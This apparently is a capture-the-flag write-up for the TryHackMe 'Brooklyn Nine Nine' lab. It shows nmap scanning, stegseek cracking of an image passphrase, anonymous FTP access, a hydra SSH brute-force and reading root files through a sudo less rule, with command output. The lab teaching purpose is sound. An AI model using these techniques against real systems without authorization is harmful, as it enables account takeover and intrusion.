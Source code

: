 # THM-Brooklyn-Nine-Nine-WriteUp

Write up for https://tryhackme.com/room/brooklynninenine (Visit tryhackme.com for more)

## Setting up and information gathering

For this CTF I've added an entry 'ninenine' to /etc/hosts pointing at the box IP

Next, I started an nmap syn scan (default type when run as root) on the host and got the following:

(`nmap -A ninenine`)

```          
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.67.245
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

## Flag 1

I've head to the hosted website and found a low quality background picture of Brooklyn Nine Nine. Inspecting the source reveals this comment:
`<!-- Have you ever heard of steganography? -->`
Well, yes I do!
I downloaded the picture and tried to extract datas from it: 

```
└─# steghide extract -sf brooklyn99.jpg
Enter passhphrase:
```

It asked for a passphrase which I tried to break with stegseek (https://github.com/RickdeJager/stegseek)

```
└─# stegseek brooklyn99.jpg /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "[*CENSORED*]"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".
```

This is the content of the exctracted file:

```
Holts Password:
[*CENSORED*]
```

Next step is to ssh into the server with user holt and find the flag in /home/holt/user.txt 

## Flag 2

I still needed to check out the FTP server which allowed Anonymoys login and contained the file note_to_jake.txt

```
└─# ftp ninenine
Connected to ninenine.
220 (vsFTPd 3.0.3)
Name (ninenine:kali): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.07 secs (1.6572 kB/s)
```

The file contains the following:

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```

Knowing another username (jake) and that he has a 'too weak' password it's time to bruteforce:

```
└─# hydra nine -f -l jake -P /usr/share/wordlists/rockyou.txt ssh                                                                                 

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-19 05:02:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://nine:22/
[22][ssh] host: nine   login: jake   password: [*CENSORED*]
[STATUS] attack finished for nine (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-19 05:02:35
```

First thing I've done after sshed into the server with jake was checking sudo's permissions

```
jake@brookly_nine_nine:~$ sudo -l -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:

Sudoers entry:
    RunAsUsers: ALL
    Options: !authenticate
    Commands:
        /usr/bin/less
```

I took a shot by running `sudo less /root/root.txt` and easily found last flag


